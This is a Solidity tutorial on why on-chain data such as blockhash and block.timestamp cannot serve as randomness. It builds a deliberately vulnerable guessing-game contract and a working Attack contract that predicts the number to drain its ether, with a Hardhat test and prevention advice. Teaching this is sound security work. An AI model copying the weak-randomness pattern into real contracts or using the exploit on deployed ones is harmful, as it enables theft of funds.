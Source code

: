 # Source of Randomness

![](https://d2r55xnwy6nx47.cloudfront.net/uploads/2019/06/QuantumRandomness_2880x1620_Still.jpg)

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's, that we used in Junior, were created).

## Requirements

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

## Build

To build the smart contract we will be using [Hardhat](https://hardhat.org/).
Hardhat is an Ethereum development environment and framework designed for full stack development in Solidity. In simple words you can write your smart contract, deploy them, run tests, and debug your code.

- In you folder, you will set up a Hardhat project

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```
  
- If you are on Windows, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a Hardhat project ready to go!

- Lets first understand what `abi.encodedPacked` does. 
  
  We have previously used `abi.encode` in the Sophomore NFT tutorial. It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string. This is used to compute the `tokenURI` of NFT collections often. `encodePacked` takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values. What does this mean? Let's take `uint256` as an example. `uint256` has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on `abi.encodePacked`, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

- Create a file named as `Game.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    contract Game {
    constructor() payable {}

        /**
            Randomly picks a number out of `0 to 2²⁵⁶–1`.
        */
        function pickACard() private view returns(uint) {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            return pickedCard;
        }

        /**
            It begins the game by first choosing a ramdom number by calling `pickACard`
            It then verifies if the random number selected is equal to `_guess` passed by the player
            If the player guessed the correct number, it sends the player `0.1 ether`
        */
        function guess(uint _guess) public {
            uint _pickedCard = pickACard();
            if(_guess == _pickedCard){
                (bool sent,) = msg.sender.call{value: 0.1 ether}("");
                require(sent, "Failed to send ether");
            }
        }

        /**
            Returns the balance of ether in the contract
        */
        function getBalance() view public returns(uint) {
            return address(this).balance;
        }

    }
  ```

- Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    import "./Game.sol";

    contract Attack {
        Game game;
        /**
            Creates an instance of Game contract with the help of `gameAddress`
        */
        constructor(address gameAddress) {
            game = Game(gameAddress);
        }

        /**
            attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
            is accessible publically
        */
        function attack() public {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            game.guess(_guess);
        }

        // Gets called when the contract recieves ether
        receive() external payable{}
    }
  ```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

- Now lets write some tests to verify if it works exactly as we hoped.

- Create a new file named `attack.js` inside the `test` folder and add the following lines of code

  ```javascript
  const { ethers, waffle } = require("hardhat");
  const { expect } = require("chai");
  const { BigNumber, utils } = require("ethers");

  describe("Attack", function () {
    it("Should be able to guess the exact number", async function () {
      // Deploy the Game contract
      const Game = await ethers.getContractFactory("Game");
      const _game = await Game.deploy({ value: utils.parseEther("0.1") });
      await _game.deployed();

      console.log("Game contract address", _game.address);

      // Deploy the attack contract
      const Attack = await ethers.getContractFactory("Attack");
      const _attack = await Attack.deploy(_game.address);

      console.log("Attack contract address", _attack.address);

      // Attack the Game contract
      const tx = await _attack.attack();
      await tx.wait();

      const balanceGame = await _game.getBalance();
      // Balance of the Game contract should be 0
      expect(balanceGame).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now open up a terminal pointing to `Source-of-Randomness` folder and execute this

  ```bash
  npx hardhat compile
  ```

- If all your tests passed, you have sucessfully completed the hack :)

## Preventions

- Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness

## References
Image fetched from [Quanta Magazine](https://d2r55xnwy6nx47.cloudfront.net/uploads/2019/06/QuantumRandomness_2880x1620_Still.jpg)
